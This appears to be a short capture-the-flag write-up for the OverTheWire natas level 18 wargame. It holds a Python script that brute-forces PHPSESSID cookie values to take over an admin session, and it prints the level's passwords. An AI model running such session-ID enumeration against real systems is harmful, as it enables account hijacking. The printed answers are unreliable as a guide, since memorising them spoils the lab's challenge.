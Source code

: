 # [natas 18](http://natas18.natas.labs.overthewire.org)

    Username: natas18
    Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

Try to edit the "PHPSESSID" field of the cookie to login as an admin.
Show the python script below.

    import requests
    for i in range(641):
        r = requests.get('http://natas18.natas.labs.overthewire.org/', auth=('natas18','xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), cookies={'PHPSESSID': str(i)})
        if 'You are an admin' in r.text:
            print(r.text)
            break

We find the password in the html text.

    Username: natas19
    Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

